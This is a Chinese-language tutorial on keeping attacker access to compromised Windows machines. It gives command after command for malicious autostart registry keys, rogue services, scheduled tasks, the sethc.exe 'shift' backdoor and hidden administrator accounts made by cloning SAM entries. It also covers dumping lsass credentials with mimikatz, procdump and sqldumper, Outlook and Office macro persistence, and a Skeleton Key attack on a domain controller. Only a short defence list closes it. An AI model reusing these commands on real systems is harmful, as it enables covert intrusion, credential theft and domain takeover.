

windows权限维持
文中所提到的利用方式均在WIN10或2016中进行了测试。
Windows 启动目录：
Windows 启动目录分为，用户启动目录，与系统启动目录。
用户启动目录是登录特定用户的时候才会启动。
系统启动目录是所有登录该计算机的用户都会启动。
用户启动目录：
用户启动目录只要 Administrator 权限即可
C:\Users{username}\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
1 | move c:\xxx.exe "C:\Users\{username}\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\xxx.exe" |
系统启动目录：
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
如果通过 move 的方式向系统启动目录的写入需要进行提权，才可写入
1 | move c:\xxx.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\xxx.exe" |
Windows 服务注册：
通过在注册表中注册恶意服务并设置为自启动的方式来进行持久化。
CMD 通过 sc 进行注册：
服务注册至少需要本地管理组权限。还需要注意SC 命令需要等号后面接空格在加参数
命令详解：sc create 服务名 binpath= “命令” start= “auto” obj= “objectname”
1 | sc create pentestlab binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem" |
PowerShell 通过New-service 创建：
1 | New-service -Name "服务名" -BinaryPathName "执行的命令" -Description "" -StartupType Automatic |
Registry Run Keys（注册表注册键）：
Run 注册键 ：
HKCU:
计算机\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
我们通常安装的软件，其开机自启动都会放在该注册表下。如图
所以我们也能通过向该注册表添加新的键值对进行恶意的开机启动。
对 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 注册表的修改只要求有 administrator 权限即可
1 | reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v qf_test /t REG_SZ /d "C:\WINDOWS\system32\notepad.exe" |
HKLM:
计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
而 计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 则需要提升了权限后才可以进行修改，因为有效负载将在每次系统启动时执行，而与使用系统身份验证的用户无关。
1 | reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v qf_test1 /t REG_SZ /d "C:\WINDOWS\system32\notepad.exe" |
Userinit 注册键：
Userinit 位于 计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
以下是微软对于该注册键的说明：
指定用户登录时Winlogon运行的程序。默认情况下，Winlogon运行Userinit.exe，后者运行登录脚本，重新建立网络连接，然后启动Windows用户界面Explorer.exe。
您可以更改此条目的值以添加或删除程序。例如，要在Windows资源管理器用户界面启动之前运行程序，请在该条目的值中用该程序的名称替换Userinit.exe，然后在该程序中包含说明以启动Userinit.exe。如果您脱机工作且未使用登录脚本，则可能还需要用Explorer.exe代替Userinit.exe。
Userinit注册键是可以通过逗号分割多个应用程序，并且执行的程序还可以带参数（也就意味着，可以利用 powershell 实现无文件后门持久化）。需要注意的是，修改 Userinit 必须要管理员权限才可。
通过 Reg 修改注册表 ：
1 | reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe,cmd.exe" /f |
通过 PowerShell 修改注册表：
1 | Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,cmd.exe /c calc.exe" |

LogonScript 注册键：
UserInitMprLogonScript 注册键位于 HKCU:\Environment 下，大多数系统，注册表中都不会包含这一项。我们只需要创建该键即可。reg 或 powershell 都可以完成。
1 | reg add "HKCU:\Environment" /v UserInitMprLogonScript /t REG_SZ /d "c:\users\red2\desktop\1.bat" /f |
1 | New-ItemProperty "HKCU:\Environment" UserInitMprLogonScript -value "c:\users\red2\desktop\1.bat" -propertyType string | Out-Null |
注销登录就可以发现文件成功被写入，并且需要注意的是，LogonScript 的启动优先级较高，甚至优于某些杀软启动。
Load 注册键：
Load 注册键位于 HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows 下。通常该键也是不存在的，但是也可以通过添加 load 键值的方式，使其生效。
1 | reg add "HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows" /v load /t REG_SZ /d "c:\users\red2\desktop\1.bat" /f |
1 | New-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows" load -value "c:\users\red2\desktop\1.bat" -propertyType string | Out-Null |
注销登录后成功触发
Explore\run 注册键：
Explore\run 位于 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer 与 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer 下, 这两个注册表项需要提权才能进行修改。
直接使用 reg 创建一个 run 注册表项，并同时创建 twin 键值
1 | reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\run" /v twin /t REG_SZ /d "lala.exe" /f |
当我使用WIN 10进行测试的时候，发现通过这种方式创建的持久化，会触发 explorer 的错误，只有关闭掉该错误提示，才会进行后续动作
win 2016 则不存在这种问题，其他系统未进行测试，暂时不知道会不会出现这样的问题。
注销登陆，成功触发。
而单纯使用 PowerShell 进行创建的话，则先需要创建 run 注册表项，然后在创建健值。
1 | New-Item "HKCU:\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\run" |

Command Processor\AutoRun 注册键：
Command Processor\AutoRun 注册键位于HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor 启动时间先于用户登录。在完全重启计算机时会运行。
1 | New-ItemProperty "HKLM\SOFTWARE\Microsoft\Command Processor" AutoRun -value "c:\users\admin\desktop\1.bat" -propertyType string | Out-Null |
并且是以system权限启动
并且 **HKCU:\SOFTWARE\Microsoft\Command Processor\AutoRun 和 HKLM:**SOFTWARE\Microsoft\Command Processor\AutoRun 都会在用户通过快速运行 cmd 的时候执行。
Winlogon\taskman 注册键：
taskman 位于 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 与 HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 但是经过测试，只有 HKLM 注册表下的 taskman 是生效的。
1 | New-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" taskman -value "c:\users\admin\desktop\1.exe" -propertyType string | Out-Null |
Windows NT\CurrentVersion\Windows\run 注册键：
Windows\run 注册键位于 HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows 下 HKLM 下的该键则不会生效。并且该键值是需要用户登录桌面后才会启动，且是当前用户权限。
1 | New-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows" run -value "c:\users\admin\desktop\2.exe" -propertyType string | Out-Null |
Windows NT\CurrentVersion\Windows****load 注册键：
Windows\load 位于 HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows 下和 Windows\run 一样，只有 HKCU 下的该键才生效。
1 | New-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows" load -value "c:\users\admin\desktop\2.exe" -propertyType string | Out-Null |
其它注册键：
Windows 中可用于权限维持的注册键还有很多，由于精力有限，无法一一测试是否有效.

计划任务：
在Windows操作系统中提供了一个实用程序（schtasks.exe），使系统管理员能够在特定的日期和时间执行程序或脚本。在实战中这个地方也经常被攻击者进行利用。同时也要求创建计划任务需要管理员权限才行。
1 | On System Start |
更多的详细信息请参考
https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/
Shift 后门：
我们都知道在登陆Windows的时候，Windows允许我们使用一些快捷功能，比如连续5次的shift启动粘贴键，在老版本的系统中（如xp/2003）我们可以通过直接替换sethc.exe进行持久化的后门植入。但是到高版本系统之后，只有TrustedInstaller组用户才有权限进行更改。但是我们还是可以通过添加注册表的方式进行shift后门植入。
1 | reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe" /f |
还有就是在以下文章中看到的方式，利用对进程静默退出的监视操作，实现shift后门。但是这种方式不会像上面的那种，直接将CMD弹出到登陆界面，而是在sethc.exe退出之后运行。同样也是system权限。
1 | reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f |
参考文章：
创建后门账户：
创建隐藏账户方式一:
1 | net user xxx$ password /add |

创建隐藏账户方式二:
首先还是像上面一样创建一个$隐藏账户
然后修改注册表
hklm:\SAM\SAM\Domains\Account\Users\
复制 Administrator 也就是 0x1f4 中 F的二进制值。
将其复制到新创建的隐藏账户 0x3eb 中
然后将0x1f4 与 0x3eb 与 bbb_1$ 全部导出
再删除 bbb_1$ 这个隐藏账户
最后再将导出的注册表进行导入及完成。
凭据提取：
在Windows平台中，最常用的凭据提取工具便是 Mimikatz ,它能够从 lsass 中提取出用户登陆的明文账户及密码。如果提取不出明文密码，也能获得密码 hash 用以制作各种票据。其它更多的利用，不在本片文章的讨论范围，这篇文章，只简述其凭据提取的功能。
通过获取目标账户的密码或者 hash 制作的票据，我们也能达到一定程度上的权限维持的作用，当然获取密码还有更简单的方式，比如键盘记录。
直接在目标机运行：
1 | #以管理员权限运行 mimikatz ，然后获取 debug 权限，再获取账户密码 |
通过任务管理器转储 lsass：
除了上面直接在目标机上运行 mimikatz 的方式，我们还可以通过转储 lsass 的方式，在本地进行提取。
1 | mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit |
通过微软的小工具 procdump 进行转储：
1 | procdump64 -accepteula -ma lsass.exe lsass.dmp |
SqlDumper:
sqldumper 是 mssql 自带的一个工具，在目标机安装了 mssql 我们都可以直接使用，以 mssql 2019 为例,其存放于 C:\Program Files\Microsoft SQL Server\150\Shared。
150 for SQL Server 2019
140 for SQL Server 2017
130 for SQL Server 2016
120 for SQL Server 2014
110 for SQL Server 2012
100 for SQL Server 2008
90 for SQL Server 2005
1 | # 获取进程PID |
1 | #根据PID dump lsass |
Get-ProcessMiniDump :
OutLook 后门持久化：
OutLook 主页滥用：
修改主页的目标地址，改为恶意网页地址。每次点击收件箱时都会触发漏洞。
由于outlook 使用的是 ieframe.dll 来进行渲染，所以导致其可执行VBS代码。造成命令执行。
1 | <html> |
微软已发布KB4011162补丁用以删除该功能。
OutLook 规则滥用：
由于笔者的 OutLook 已修复该功能，且该规则滥用利用简单，所以不做单独演示。
https://www.freebuf.com/vuls/243747.html
深度利用请参考：
https://blog.csdn.net/weixin_34212762/article/details/90503389
Outlook 功能滥用利用工具地址：
https://github.com/sensepost/ruler
Office 持久化：
宏持久化：
创建一个作用于所有活动模板和文档的宏。
然后编写对应的宏代码，或使用CS，MSF等工具生成的代码也可以。
在Word中能够自动运行的默认宏代码名称及触发条件如下：
1、名称：AutoExec 条件：启动Word或加载全局模板
2、名称：AutoNew 条件：每次生成新文档时
3、名称：AutoOpen 条件：每次打开一个已有文档时
4、名称：AutoClose 条件：每次关闭文档时
5、名称：AutoExit 条件：退出word或卸载全局模板时
一个简单的测试代码。当启动word 的时候触发。
1 | Sub AutoExec() |
HookPasswordChange:
在win10 测试失败，稍后在server 系统中进行测试。
组策略持久化：
LGP：
本地组策略（Local Group Policy，缩写LGP或LocalGPO）是组策略的基础版本，它面向独立且非域的计算机。至少Windows XP家庭版中它就已经存在，并且可以应用到域计算机。在Windows Vista以前，LGP可以强制施行组策略对象到单台本地计算机，但不能将策略应用到用户或组。从Windows Vista开始，LGP允许本地组策略管理单个用户和组，并允许使用“GPO Packs”在独立计算机之间备份、导入和导出组策略——组策略容器包含导入策略到目标计算机的所需文件。–（应用之百度百科）
命令行输入 GCC 即可打开 控制台并添加本地组策略，或者运行gpedit.msc也可以
本地组策略提供了非常丰富的功能，他可以设置用户访问权限，密码复杂度检验，账户锁定阈值，开关机脚本执行等等功能。
我们通过 LGP 的登录脚本设置，添加我们的样本文件，然后重启可以看到样本程序成功提权到system，这个点既能当做提权点，也能做权限维持。其本质与注册表提权与权限维持相同。
但是在实际环境中，我们有时无法通过桌面进行操作，所以我写了一个bat脚本用于修改计算机本地组策略，需要 administrator 权限
1 | @echo off |
另外如果是针对当前用户做登录启动的组策略的话，由于最终是写入到 HKCU 注册表，所以只需要当前权限即可。
当前用户的登录脚本配置是位于 %windir%\system32\GroupPolicy\user\Scripts ，只需要修改上方脚本中的 di 地址即可。
利用Skeleton Key对域控权限进行持久化操作
前提
需要拿到域控、获取域管权限
适用范围
Windows2003—Windows 2012 R2 x64 域控制器
过程
在未注入Skeleton Key时，尝试访问域控，发现访问不到域控的C 盘共享目录

这时我们在域控上利用mimikatz进行Skeleton Key攻击：
1 | mimikatz.exe "privilege::debug" "misc::skeleton" exit |
.png)
当系统提示Skeleton Key注入成功时，会在域内的所有账号中添加一个Skeleton Key，默认密码就是mimikatz 然后就可以以域内任意用户的身份配合该Skeleton Key进行域内身份授权验证。
接下来在不使用域管的密码情况下，使用刚刚注入的Skeleton Key与域控建立ipc$连接
1 | net use \\OWA2010SP3\ipc$ "mimikatz" /user:0day.org\administrator |
.png)
成功访问到域控！
.png)
现在，除非重新启动 DC，否则我们可以以域内用户身份登录任何域内计算机（使用mimikatz作为密码）
防御
1 | •域管理员用户要设置强口令，确保恶意代码不会在域控制器中执行。 |